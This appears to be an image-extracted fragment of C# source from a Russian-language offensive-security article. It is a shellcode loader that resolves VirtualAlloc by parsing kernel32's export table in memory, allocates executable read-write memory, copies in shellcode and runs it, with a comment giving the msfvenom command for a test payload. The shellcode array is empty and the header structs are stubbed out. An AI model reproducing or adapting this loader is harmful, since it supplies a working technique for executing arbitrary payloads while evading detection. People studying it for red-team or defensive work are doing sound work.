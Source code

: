 ```csharp
                var m = Marshal.PtrToStringAnsi(baseAddr + (int)nameAddr);
                if (m == "VirtualAlloc")
                {
                    var exportAddr = Marshal.ReadInt32(baseAddr + (int)exportHeader.AddressOfFunctions + (i * 4));
                    return baseAddr + (int)exportAddr;
                }
            }

            return IntPtr.Zero;
        }

        public static void Main()
        {
            // msfvenom -p windows/x64/messagebox TITLE='MSF' TEXT='Hack the Planet!' EXITFUNC=thread -f csharp
            byte[] shellcode = new byte[] { };

            // ищем экспорт-адрес из уже загруженной в память библиотеки kernel32.dll
            IntPtr virtualAllocAddr = IntPtr.Zero;
            foreach (ProcessModule module in Process.GetCurrentProcess().Modules)
                if (module.ModuleName.ToLower() == "kernel32.dll")
                    virtualAllocAddr = GetExportAddress(module.BaseAddress, "VirtualAlloc");

            // инициализируем делегат найденным адресом
            var VirtualAlloc = Marshal.GetDelegateForFunctionPointer<VirtualAllocDelegate>(virtualAllocAddr);

            // выделяем область памяти shellcode.Length байт в адресном пространстве текущего процесса инжектора (0x3000 = MEM_COMMIT | MEM_RESERVE, 0x40 = PAGE_EXECUTE_READWRITE)
            var execMem = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);

            // записываем шеллкод в выделенную область
            Marshal.Copy(shellcode, 0, execMem, shellcode.Length);

            // обращаемся к шеллкоду как к функции и запускаем его без создания нового потока
            var shellcodeCall = Marshal.GetDelegateForFunctionPointer<ShellcodeDelegate>(execMem);
            shellcodeCall();
        }

        [StructLayout(LayoutKind.Sequential)]
        struct IMAGE_DOS_HEADER
        {
            // http://www.pinvoke.net/default.aspx/Structures/IMAGE_DOS_HEADER.html
        }

        [StructLayout(LayoutKind.Sequential, Pack = 1)]
        struct IMAGE_OPTIONAL_HEADER64
        {
            // http://www.pinvoke.net/default.aspx/Structures/IMAGE_OPTIONAL_HEADER64.html
        }

        [StructLayout(LayoutKind.Sequential)]
        struct IMAGE_DATA_DIRECTORY
        {
            // http://www.pinvoke.net/default.aspx/Structures/IMAGE_DATA_DIRECTORY.html
        }

        [StructLayout(LayoutKind.Sequential)]
        struct IMAGE_FILE_HEADER
        {
            // http://www.pinvoke.net/default.aspx/Structures/IMAGE_FILE_HEADER.html
        }
```

[//]: # (2022-03-29)